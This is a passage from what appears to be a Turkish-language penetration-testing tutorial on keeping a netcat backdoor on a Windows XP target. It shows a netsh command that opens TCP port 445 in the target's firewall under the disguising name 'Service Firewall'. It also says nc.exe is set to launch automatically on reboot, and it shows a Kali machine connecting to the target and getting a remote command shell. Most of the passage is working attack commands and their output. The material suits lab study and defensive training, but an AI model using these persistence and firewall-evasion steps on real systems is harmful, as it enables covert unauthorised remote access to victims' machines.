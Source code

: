 

Şimdi 445 numaralı Portu izin verilen Portlar arasına ekleyelim.


```bash
C:\ > netsh firewall add portopening TCP 445 "Service Firewall" ENABLE ALL
netsh firewall add portopening TCP 445 "Service Firewall" ENABLE ALL
Ok.
```



Yaptığımız işlemin hayata geçip geçmediğini kontrol edelim.


```bash
C:\ > netsh firewall show portopening
netsh firewall show portopening

Port configuration **for **Domain profile:
Port   Protocol  Mode     Name
-------------------------------------------------------------------
139    TCP       Enable   NetBIOS Session Service
445    TCP       Enable   SMB over TCP
137    UDP       Enable   NetBIOS Name Service
138    UDP       Enable   NetBIOS Datagram Service

Port configuration **for **Standard profile:
Port   Protocol  Mode     Name
-------------------------------------------------------------------
445    TCP       Enable   Service Firewall
139    TCP       Enable   NetBIOS Session Service
445    TCP       Enable   SMB over TCP
137    UDP       Enable   NetBIOS Name Service
138    UDP       Enable   NetBIOS Datagram Service


C:\ >
```



Hedef sistem tekrar başladığında `nc.exe` otomatik olarak çalışacak ve dışarıdan bağlantılara imkan sağlayacaktır. Aşağıdaki örnekte `nc` komutuyla hedef sisteme bağlanılabildiği görülmektedir.


```bash
root@kali:~# nc -v 172.16.104.128 445
172.16.104.128: inverse host lookup failed: Unknown server error : Connection timed out
**(**UNKNOWN**)** **[**172.16.104.128] 445 **(**?**)** open
Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.

C:\ > dir
dir
Volume **in **drive C has no label.
Volume Serial Number is E423-E726

Directory of C:\

05/03/2009 01:43 AM
.
05/03/2009 01:43 AM
..
05/03/2009 01:26 AM 0 ;i
05/12/2009 10:53 PM
Desktop
10/29/2008 05:55 PM
Favorites
05/12/2009 10:53 PM
```